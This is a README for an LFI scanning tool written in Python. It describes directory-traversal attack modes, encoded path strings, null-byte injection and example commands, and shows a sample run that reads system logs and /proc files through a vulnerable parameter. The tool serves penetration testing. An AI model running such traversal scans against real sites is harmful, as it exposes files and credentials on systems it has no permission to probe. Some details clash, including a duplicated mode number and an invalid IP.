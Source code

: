 # fi-cyberspace-scan

Local File Inclusion CLI tool written in Python to speed up LFI checks. Similar to using Burp or ZAP, but less bulky and resource intensive. Plus it's in color for easy readability. File lists are included in the app, ranging from basic to verbose. Set different **"Cyber-Attack Modes"**, **Encoded Path Types**, **Deep Directory Traversal** or **NULL Bytes**.

Valid LFI results are based on HTTP response codes, then HTTP response sizes. A non-200 will reult in a failure, and a reflected byte size different from a pre-tested basline will result in a valid find. Valid finds will be displayed in terminal output.

Before executing the attack, you'll be prompted with the set parameters, then can either confirm & execute OR exit the program. All parameters are preset besides **Target**. Adding these flags will update the set parameters, prior to exectuion.

___

## Usage:

```
-----------------------------Usage-------------------------------
Target URL:            -t --target
   Set the full HTTP Path/URI in which you'd like to test.
   LFI string will be appended to whatever you set as this argument.

Cyber-Attack Modes:    -m --mode  
   3: ICE-Breaker            Hardwired LFI Validator with Custom Encoded path types. Deepspace & %00 Disabled.
   2: Mole-IX                Intermediate attack list for even the best Cyberspace Operators.
   3: Kuang-Grade-Mark-11    Top notch verbose attack. Fires off a large list of interesting files.
   4: WIN-Construct          Targeted Windows OS attack. Includes common Windows file list.

Path Type:             -p --path 
   Set the directory traversal path type if it's encoded.
   Set as ONE instance in single quotes ('..%2f' , '..\\' , '%%32%65' ,etc) 
   Deafult is set to: ../ 

Deep Space Traversal:  -d --deepspace 
   Traverse deep within the filesystem at 9 directories deep.
   Without this flag set, the default 5 deep will run.
   Boolean flag. Default is FALSE.

Null-Byte:             -n --nullbyte 
   Appends a null-byte %00 to every request.
   Boolean flag. Default is FALSE.

Examples:
root@case:/#./fi-cyberspace-scan.py -t http://127.0.0.1/cyber.php?=
root@case:/#./fi-cyberspace-scan.py -t http://127.0.0.1/cyber.php?= -m ICE-Breaker 
root@case:/#./fi-cyberspace-scan.py -t http://127.0.0.1/cyber.php?= -m 4 -p '..252f' -n 
root@case:/#./fi-cyberspace-scan.py -t http://127.0.0.1/cyber.php?= -m kuang-grade-mark-11 -d
-----------------------------------------------------------------
```

Here is a sample output for the [Kuang-Grade-Mark-11](http://www.antonraubenweiss.com/gibson/history/v1/glossary.html) mode, which tests a large directory list. In this case there are valid hits in the root **/** and 4 directories deep **../../../../**. You could initally run the **ICE-Breaker** to verify valid path types.

```
root@kali:/home/scripts# python fi-cyberspace-scan.py -t http://172.28.1227.5/cyber.php?space= -m 3
-----------------------------------------------------------------
'___ *  .    '   \|/     *   .   '      + .----. .  '  -*-    
|===|     ' __   -*-  FI Cyberspace-Scan  ||'''|_       ' ___ 
|= =|__'  _|==|_ /|\  ___     * .   __   _||= =|.| *   __|===|
|= =|::| |.|:|==|____|= =| .   ____|==| |::|= =|.|__ '|::|= =|
|=|=|::|_|.|:|==| :: |_.-`-.__|----|==|_|::|=|=|.|::|_|::|= =|
-----------------------Hardwired Options-------------------------
TARGET URL                   : http://172.28.128.3/turing-bolo/bolo.php?bolo=
CYBER ATTACK MODE            : Kuang-Grade-Mark-11
PATH TYPE                    : ../
DEEP SPACE TRAVERSAL         : False
NULL-BYTE %00                : False
-----------------------------------------------------------------
DO NOT USE AGAINST UNAUTHORIZED INTRUSION COUNTERMEASURES ELECTRONICS
Execute Cyberspace Run? [Y/n]: 

-----------------------------------------------------------------
It seems  448  is the common reflected byte size.
Digging into unique reflection sizes.
-----------------------------------------------------------------
[+] - Something interesting found with /var/log/messages in 
     --Path:  /
     --Path:  ../../../../
[+] - Something interesting found with var/log/mail.log in 
     --Path:  /
     --Path:  ../../../../
[-] - Nothing found in var/log/maillog
[+] - Something interesting found with var/log/apache2/access.log in 
     --Path:  /
     --Path:  ../../../../
[-] - Nothing found in var/log/postgresql/postgresql-10-main.log
[+] - Something interesting found with var/log/apache2/error.log in 
     --Path:  /
     --Path:  ../../../../
[-] - Nothing found in var/log/httpd/access_log
[-] - Nothing found in var/log/httpd/error.log
[+] - Something interesting found with proc/self/cmdline in 
     --Path:  /
     --Path:  ../../../../
[+] - Something interesting found with proc/self/stat in 
     --Path:  /
     --Path:  ../../../../
[-] - Nothing found in var/log/apache2/error_log
[-] - Nothing found in var/log/httpd/access.log

---snip---
```
